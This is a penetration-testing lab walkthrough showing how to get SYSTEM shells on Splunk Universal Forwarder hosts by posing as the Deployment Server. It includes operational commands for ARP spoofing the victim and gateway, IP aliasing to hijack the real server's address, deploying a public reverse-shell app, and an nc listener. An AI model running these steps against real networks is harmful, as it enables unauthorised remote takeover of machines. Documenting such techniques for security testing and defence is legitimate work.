

Attacking Splunk Universal Forwarders to achieve RCE.

# Overview

I sometimes find myself on engagements in a network with no credentials and not much going on for me. Responder doesn't always give me anything juicy and other more aggressive attack primitives are scoped out or impossible to execute. However, a quick portscan reveals port 8089 exposed on a couple of hosts. More often than not, this means a Splunk agent is installed. I've seen [research](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/) on how to abuse Splunk for such purposes, but I had yet to try it myself. I decided to configure Splunk in my lab to find out if it is possible to achieve RCE on any host with Splunk installed, given access to the same network. Spoiler alert: the answer is yes.

## What do we achieve from this attack?

- Remote Code Execution as `SYSTEM` on any endpoint with Splunk Univeral
  Forwarder installed.

# Attack steps

1. We configure a Splunk Deployment Server (DS) on our attacker host
2. We ARP spoof the target and pretend we are the DS
3. We deploy a malicious Splunk app to the target, that executes a payload

# Prerequisites

- A Linux machine on the same network as the victim host(s)
- The ability to install and configure a Splunk deployment server on said machine
- A scope that allows ARP spoofing and redirection of Splunk traffic, which can be potentially disruptive
- Splunk Universal Forwarder running on the victim

Note that Splunk has no authentication between the Universal Forwarder and
Deployment Server. Thus, all we need to do is tell clients you are the
forwarder, which is exactly what we do in this attack.

# Setup

## Components of the attack

- `192.168.0.134` - `ws01.lab.local` - The victim host
- `192.168.0.20` - `kali01` - Attacker host
- `192.168.0.1` - The default gateway

I found a [useful diagram](http://downloads.jordan2000.com/splunk/Splunk-Common-Network-Ports-ver1.6.png) that displays some of the Splunk components and what ports they use for communication. Most of it is beyond the scope of this simple demo, but it's worth taking a look at it to get familiar with Splunk infrastructure.

## Preparing the victim

In a real scenario you will not have access to the victim (duh). I included this section so you can replicate the attack if you wish.

Install the Splunk Universal Forwarder (UF) with [Choco](https://chocolatey.org/)

    choco install splunk-universalforwarder

Do a netstat to verify port `8089` is exposed

    netstat -ab

Configure the forwarder to contact the "real" Deployment Server. The default credentials are `admin/changme`.

    cd "C:\Program Files\SplunkUniversalForwarder\bin"
    .\splunk.exe set deploy-poll 172.16.0.2:8089

## Installing Splunk Deployment Server

Splunk Enterprise can be downloaded for free with a login from the [Splunk website](https://www.splunk.com/en_us/download/splunk-enterprise.html). Assuming a Debian based OS, install the deb file with `apt`

    apt install ./splunk-7.3.1.1-7651b7244cf2-linux-2.6-amd64.deb

Once the server is installed, start it

    /opt/splunk/bin/splunk start

## ARP spoofing

We need to ARP spoof the victim to be able to say we are the deployment server. However, we are not always lucky enough to be in the same network as the real Deployment Server. Hence, we need to find out where it is, and spoof it. We do that by spoofing the default gateway for our victim, consequently routing everything through us.

First enable port forwarding on the attacking host

    sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sed -i 's/#net.ipv4.ip_forward=1/net.ipv4.ip_forward=1/' /etc/sysctl.conf
    sysctl -p

Open two terminals and execute `arpspoof` to tell the victim that we are the default gateway and the gateway that we are the victim. This way, all traffic to and from the victim will be forwarded through our attacker host.

    arpspoof -i eth0 -t 192.168.0.134 192.168.0.1
    arpspoof -i eth0 -t 192.168.0.1 192.168.0.134

Instantly upon execution, ARP replies are coming in.

## Finding the real Deployment Server

If you are lucky, the DS is in the same network as your attacker host and victim. If it is you can just ARP spoof that server directly. However, if the DS is in a different network, you need to find out where the DS is.

Note: when I did this I had both SSH and RDP going on to the boxes, so I filtered those and ARP requests, and focus on traffic to and from my target. We know that UFs communicate outbound on `8089` so we can filter on that.

    tcpdump -i eth0 port not 22 and port not 3389 and not ARP and host 192.168.0.134 and port 8089

We see that it's trying to reach out to a host on a different network on port `8089`. This is most likely the deployment server it has been configured for.

## Prepering the alias interface

We know from tcpdump that the real DS is at `172.16.0.2`. This is a property configured on the forwarder, so there is little we can do about that. We need to trick traffic to that IP to go to our deployment server. My solution to this was configuring an alias interface that will always be a shorter route than to the real DS. For this, we configure an alias interface on `eth0` with that IP.

    ifconfig eth0:0 172.16.0.2 up

Verify that we have a route, but this should be obvious really.

    ip route get 172.16.0.2

Note that Splunk exposes itself on `0.0.0.0` so `8089` is not bound to any specific interface on the attacking host, hence this works and Splunk will be accessible on the alias interface.

## Preparing the deployment package

We are going to prepare a Splunk app that will be deployed to the victim. We don't care for implementing this ourselves when numerous proejcts are easily available on Github. We chose the repo [reverse_shell_splunk](git clone https://github.com/vartai-security/reverse_shell_splunk) for the job. This app will simply run a bat file that runs a powershell-script, which executes a reverse shell.

We clone the repo and edit the `run.ps1` file to our attacker IP and port where we will be listening.

    git clone https://github.com/vartai-security/reverse_shell_splunk

    vim reverse_shell_splunk/reverse_shell_splunk/bin/run.ps1

We then copy the entire folder over to the deployment-apps directory.

    cd reverse_shell_splunk
    cp -r reverse_shell_splunk/ /opt/splunk/etc/deployment-apps/

## Listener

We are nearly there, so we set up a listener on the attacker host

    nc -lvp 443

## Preparing the Server Class

We now use the web interface to deploy the package we configured earlier to our target. Once you click save in the final step here, the App is deployed and will be installed on all specified clients. That means your payload will be firing!

To deploy Apps to specific hosts they have to be part of a Server Class. We configure this by doing the following:

Enter the web interface for your fake DS, that is exposed on port `8000`. In this example, the URL is `http://192.168.0.20:8000`

Click `Settings -> Forward Management`

Most likely you will see it already has 1 client phoned home already. And you will see the app you placed in your folder.

Go to `Server Classe`s and click `Create One`

Give it a name

## Deploying the package

Click `Add Apps`

Click the app in `Unselected App` and it will automagically move over to `Selected app`.

Click `Save`

Now click `Add Clients`

## Attack

Now, everything is ready and all we need to do is execute the actual attack. This will happen quickly once we click Save, so we make sure everything is all set up before we click.

Specify the client in the whitelisting , which is our target and click Save.

It should deploy the App fairly quickly and give us some feedback when it has.

## Profit

And there it is! Our beloved SYSTEM shell which we obtained from nothing but network access and some clever Splunk Magic. Highly rewarding as usual. Do a root dance if you ever get here!

## Troubleshooting

### Client polling

Polling for new apps will always be initiated by the client, so we simply have to wait. If we are impatient and just want to simulate the attack, we can log on to the victim host and force a restart of the UF.

    C:\Program Files\SplunkUniversalForwarder\bin> .\splunk.exe restart

After the restart we monitor using tcpdump, where we should see the victim start connecting to our fake DS, thus installing the deployed app and execute the payload.

Note that the location of the deployed apps on the Windows endpoint is `C:\Program Files\SplunkUniversalForwarder\etc\apps`

